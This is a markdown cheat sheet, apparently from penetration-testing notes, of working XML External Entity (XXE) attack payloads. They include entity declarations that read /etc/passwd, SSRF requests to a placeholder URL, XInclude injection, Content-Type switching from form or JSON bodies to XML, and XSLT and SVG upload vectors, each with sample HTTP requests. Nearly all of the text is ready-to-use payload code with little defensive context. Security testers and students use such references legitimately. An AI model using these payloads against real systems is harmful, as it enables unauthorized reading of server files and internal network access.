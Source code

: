 # XXE

## Exploits

### File Retrieval

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<field>&xxe;</field>
```

### SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<url>/"> ]>

<field>&xxe;</field>
```

## XInclude Attack

Useful for when the attacker doesn't control the whole XML structure but can only insert values in the fields (for instance as values returned from SOAP requests or populated from forms)

Read local file

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

SSRF

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="<url>"/></foo>
```

Example request

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

var=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="<url>"/></foo>
```

## XXE Through Modified Content-Type

In same cases it might be possible to trigger XXE vulnerabilities in requests that are not formatted as XML by setting the content type header to text/xml and rewriting the body of the request in order to be digested by an XML parser

### POST Request

Original request

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

var=value
```

Modified request

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><var>value</var>
```

### JSON Body

Original request

```
POST /action HTTP/1.0
Content-Type: application/json
Content-Length: 38

{"search":"name","value":"val"}
```

Modified request

```
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```

## XXE Through file upload

### XSLT

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
   <xsl:template match="/">
       <xsl:value-of select="document('<path>')">
   </xsl:value-of></xsl:template>
</xsl:stylesheet>
```

### SVG

Text will appear within the image

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://<path>" > ]>
<svg width="256px" height="256px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="12" x="0" y="16">&xxe;</text>
</svg>
```
